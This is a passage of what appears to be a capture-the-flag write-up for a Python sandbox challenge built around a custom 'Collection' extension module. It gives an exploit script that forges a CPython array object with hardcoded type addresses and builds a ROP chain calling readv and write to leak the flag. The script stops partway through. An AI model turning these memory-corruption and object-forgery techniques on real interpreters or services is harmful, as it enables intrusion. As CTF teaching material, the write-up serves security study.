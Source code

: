 Then the thing become very easy. We can leak the `libc` and stack address very easily, and write to stack to perform ROP that gets the flag.

```python
import os
flag = open("flag", "r")
os.dup2(flag.fileno(), 1023)
flag.close()

from sys import modules
del modules['os']
import Collection
keys = list(__builtins__.__dict__.keys())
for k in keys:
	if k != 'id' and k != 'hex' and k != 'print' and k != 'range':
		del __builtins__.__dict__[k]

# ----------------start---------------------

p64 = lambda x: x.to_bytes(8,"little")

def create_rop(iov, buf):
    #ROP is easy, I won't detail this
	POPRAX = p64(0x0000000000420f7b)
	POPRDI = p64(0x0000000000421612)
	POPRSI = p64(0x000000000042110e)
	POPRDX = p64(0x00000000004026c1)
	READV = p64(0x4208B0)
	WRITE = p64(0x4207E0)
	rop = b''
	rop += POPRDI
	rop += p64(1023)
	rop += POPRSI
	rop += p64(iov)
	rop += POPRDX
	rop += p64(1)
	rop += READV #readv(1023, iov, 1)
	rop += POPRDI
	rop += p64(1)
	rop += POPRSI
	rop += p64(buf)
	rop += POPRDX
	rop += p64(0x100)
	rop += WRITE #write(1, buf, 0x100)
	rop += p64(0x2019)
	return rop

def fake_array(addr):
    # https://github.com/python/cpython/blob/master/Modules/arraymodule.c
    # the first field is reference count, we make it big to avoid GC to collect it
    # the 0x9d3340 and 0x715508 represent the type of PyObject and type of C array respectively
    # in this case, I have chosen the unsigned char array to make it easy
    # they are obtained from debugging
    # the 3rd and 5th fields are both length, 
    # I don't know why there are 2 fields storing the same thing,
    # although they can be inequal sometimes,
    # so I just copied everything from the memory
	return p64(0x0000000000002019) + p64(0x00000000009d3340) \
		+ p64(0x0000000000002019) + p64(addr) \
		+ p64(0x0000000000002019) + p64(0x0000000000715508) \
		+ p64(0x0000000000000000) + p64(0x0000000000000000)

ia = Collection.Collection({"int":0x5cee56c130df7336, "arr":[0x2019, 0xbeef]})

```